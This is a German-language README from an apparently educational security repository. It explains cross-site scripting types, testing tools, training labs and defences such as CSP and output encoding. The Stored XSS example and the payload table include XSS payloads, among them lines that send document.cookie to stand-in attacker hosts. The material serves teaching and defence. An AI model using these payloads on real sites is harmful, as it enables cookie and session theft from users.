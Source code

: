 # ⚠️ Cross-Site Scripting (XSS) – Überblick, Typen, Schutz

## 📘 Einleitung

**Cross-Site Scripting (XSS)** ist eine Web-Sicherheitslücke, bei der Angreifer **schädlichen JavaScript-Code** in Webseiten einschleusen, der im Browser anderer Benutzer ausgeführt wird.

💡 XSS zählt laut [OWASP Top 10](https://owasp.org/www-project-top-ten/) seit Jahren zu den **häufigsten Sicherheitslücken** in Webanwendungen.

---

## 🧠 Grundlagen & Ziel

**Ziel von XSS**:  
➡️ Ausführen von JavaScript im Kontext des Opfers, z. B. um:
- Cookies zu stehlen (`document.cookie`)
- Session-Tokens zu exfiltrieren
- Inhalte zu verändern (defacement)
- Phishing-Popups anzuzeigen
- Keylogging durchzuführen
- Zugriff auf Browser-APIs (z. B. `localStorage`) zu erlangen

---

## 🧨 Typen von XSS

### 1. **Reflected XSS** (nicht persistent)

- Eingabe wird sofort über Antwort reflektiert (z. B. über URL-Parameter)
- Kein Speichern auf dem Server
- Typisch: Formulare, URLs, Suchfelder

**Beispiel:**
```html
URL: http://example.com/search?q=<script>alert('XSS')</script>
```

### 2. Stored XSS (persistent)

- Bösartiger Code wird dauerhaft gespeichert (z. B. in Kommentaren, Foren, Profilfeldern)
- Wird jedes Mal bei Anzeige ausgeführt

Beispiel:
```html
<!-- Ein Benutzer speichert im Kommentar: -->
<script>fetch('http://evil.com?cookie=' + document.cookie)</script>
```

### 3. DOM-based XSS

- Manipuliert das DOM rein im Browser, ohne dass der Server beteiligt ist
- XSS entsteht durch unsichere JavaScript-Verarbeitung im Frontend

Beispiel:
```javascript
// gefährlich:
document.body.innerHTML = location.hash;
// Beispiel-URL: http://site.com/#<img src=x onerror=alert(1)>
```

----

## 🛠️ Nützliche XSS Payloads

| Zweck                   | Beispiel-Payload                                                   |
| ----------------------- | ------------------------------------------------------------------ |
| Einfacher Test          | `<script>alert(1)</script>`                                        |
| HTML-Injection          | `<img src=x onerror=alert(1)>`                                     |
| Cookie stehlen          | `<script>fetch('http://attacker.com?c='+document.cookie)</script>` |
| DOM XSS                 | `#<img src=x onerror=alert(1)>`                                    |
| JavaScript-only (Event) | `<body onload=alert(1)>`                                           |

🔐 Tipp: Nutze Tools wie [XSS Cheat Sheet (PortSwigger)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

---

## 🧪 Praxis – Testen mit XSS

### 🔬 Tools

| Tool                   | Beschreibung                               |
| ---------------------- | ------------------------------------------ |
| Burp Suite             | Proxy zum Einfügen & Abfangen von Payloads |
| OWASP ZAP              | Automatisierte Scans + manuelles Testen    |
| XSS Hunter             | Entdeckung & Überwachung von Blind XSS     |
| XSStrike               | Fuzzer mit intelligenter Erkennung         |
| Google Chrome DevTools | Testumgebung im Browser                    |

### 🧪 Testbare Labs

- [PortSwigger Web Security Academy](https://portswigger.net/web-security/cross-site-scripting)
- [HackTheBox Academy: XSS Fundamentals](https://academy.hackthebox.com/)
- [TryHackMe: XSS Room](https://tryhackme.com/room/xss)

---

## 🛡️ Schutzmaßnahmen gegen XSS

### ✅ Server-seitiger Schutz

| Maßnahme                      | Beschreibung                                      |
| ----------------------------- | ------------------------------------------------- |
| Input Validierung             | Unerwartete Zeichen blockieren oder escapen       |
| Output-Encoding               | Spezielle Zeichen vor HTML-Ausgabe entschärfen    |
| Content Security Policy (CSP) | Einschränkung erlaubter Skriptquellen             |
| HTTPOnly-Flag bei Cookies     | Schutz vor JavaScript-Zugriff auf Session         |
| Frameworks nutzen             | Z. B. React, Vue: automatische Kontext-Isolierung |


### ✅ Client-seitiger Schutz

CSP Header z. B.:
```http
Content-Security-Policy: default-src 'self'; script-src 'self'
```

X-XSS-Protection Header (veraltet, aber teilweise wirksam):
```http
X-XSS-Protection: 1; mode=block
```

---

## 📚 Bonus: XSS in modernen Frameworks

- React, Angular, Vue nutzen intern DOM-Sanitizer
- Problematisch bleiben:
    - `dangerouslySetInnerHTML` (React)
    - `v-html` (Vue)
    - `innerHTML`, `document.write()`, `eval()` (JS allgemein)

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---


### 🧾 Nützliche Links

- [OWASP XSS Overview](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger XSS Academy](https://portswigger.net/web-security/cross-site-scripting)
- [XSS Cheat Sheet (OWASP)](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [PayloadsAllTheThings: XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
